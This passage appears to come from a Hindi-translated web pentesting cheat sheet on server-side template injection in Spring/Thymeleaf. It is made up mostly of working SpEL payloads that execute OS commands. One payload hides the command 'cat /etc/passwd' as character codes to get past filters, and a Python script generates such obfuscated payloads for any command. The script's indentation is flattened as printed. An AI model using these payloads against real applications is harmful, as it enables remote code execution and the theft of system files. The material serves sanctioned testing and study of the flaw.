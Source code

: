 * [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### स्प्रिंग फ्रेमवर्क (जावा)
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
**फिल्टर बायपास करें**

यदि `${...}` काम नहीं करता है तो कई वेरिएबल एक्सप्रेशंस का उपयोग किया जा सकता है, जैसे `#{...}`, `*{...}`, `@{...}` या `~{...}`।

* `/etc/passwd` पढ़ें
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
* पेलोड जनरेशन के लिए कस्टम स्क्रिप्ट
```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
if count == 1:
base_payload += f"(T(java.lang.Character).toString({i}).concat"
count += 1
elif count == len(converted):
base_payload += f"(T(java.lang.Character).toString({i})))"
else:
base_payload += f"(T(java.lang.Character).toString({i})).concat"
count += 1

print(base_payload + end_payload)
```
**अधिक जानकारी**
